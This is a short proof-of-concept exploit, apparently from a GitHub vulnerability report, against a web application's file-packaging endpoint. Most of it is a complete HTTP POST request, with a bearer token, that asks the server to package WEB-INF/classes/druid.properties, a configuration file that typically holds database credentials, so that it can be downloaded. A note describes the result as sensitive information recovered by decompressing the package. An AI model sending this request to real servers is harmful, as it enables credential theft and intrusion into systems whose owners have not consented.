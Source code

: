 Decompress the compressed packet to access this sensitive information:

<img width="780" height="561" alt="image" src="https://github.com/user-attachments/assets/82274082-680c-4ef7-80ce-20a6a82818c1" />

# POC
```
POST /control/filePackage/manage?method=package HTTP/1.1
Host: 192.168.43.92:8231
Content-Length: 170
Accept: application/json, text/plain, */*
X-Requested-With: XMLHttpRequest
Authorization: Bearer CGxbjJilafzmoqWzJj23ys2AMpk
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHAqbaOmM37x1G1WF
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryHAqbaOmM37x1G1WF
Content-Disposition: form-data; name="idGroup"

WEB-INF/classes/druid.properties
------WebKitFormBoundaryHAqbaOmM37x1G1WF--
```






